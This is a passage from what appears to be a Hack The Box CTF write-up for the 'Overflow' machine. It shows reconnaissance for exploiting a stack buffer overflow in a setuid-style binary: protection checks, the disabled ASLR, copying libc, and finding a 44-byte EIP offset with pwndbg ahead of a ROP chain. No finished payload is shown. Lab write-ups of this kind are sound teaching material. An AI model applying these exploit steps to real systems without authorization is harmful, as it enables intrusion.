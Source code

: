 Checking protections on the binary we see that `NX` is enabled meaning the stack is not executable and we will use a ROP approach to the binary.

```
$ checksec ./file_encrypt
[*] '/home/jack/htb/boxes/overflow/exploit/file_encrypt'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Interestingly ASLR is disabled on the machine, so the addresses in libc will be the same every run.

```
tester@overflow:~$ cat /proc/sys/kernel/randomize_va_space
0
```

To get the necessary gadgets we check the used libc using `ldd` and download it to our machine with scp.

```
tester@overflow:~$ ldd /opt/file_encrypt/file_encrypt
        linux-gate.so.1 (0xf7fd4000)
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xf7de5000)
        /lib/ld-linux.so.2 (0xf7fd6000)
```

```
$ scp -i tester tester@overflow.htb:/lib/i386-linux-gnu/libc.so.6 .
libc.so.6
```

First we need to find the offset to overwrite eip. We can do this using `pwndbg`'s builtin `cyclic` functionality which identifies the offset to eip overwrite at 44 bytes.

```
$ gdb -q ./file_encrypt
pwndbg: loaded 196 commands. Type pwndbg [filter] for a list.
pwndbg: created $rebase, $ida gdb functions (can be used with print/break)
Reading symbols from ./file_encrypt...
(No debugging symbols found in ./file_encrypt)
pwndbg> cyclic 100
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
pwndbg> r
Starting program: /home/jack/htb/boxes/overflow/exploit/file_encrypt
This is the code 1804289383. Enter the Pin: -202976456
name: aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
Thanks for checking. You can give your feedback for improvements at developer@overflow.htb

Program received signal SIGSEGV, Segmentation fault.
0x6161616c in ?? ()
...[snip]...
 EBX  0x6161616a ('jaaa')
 ECX  0xffffffff
 EDX  0xffffffff
 EDI  0xf7f93000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1e4d6c
 ESI  0xf7f93000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1e4d6c
 EBP  0x6161616b ('kaaa')
 ESP  0xffffce30 ◂— 'maaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'
 EIP  0x6161616c ('laaa')
...[snip]...
pwndbg> cyclic -l 0x6161616c
44
```
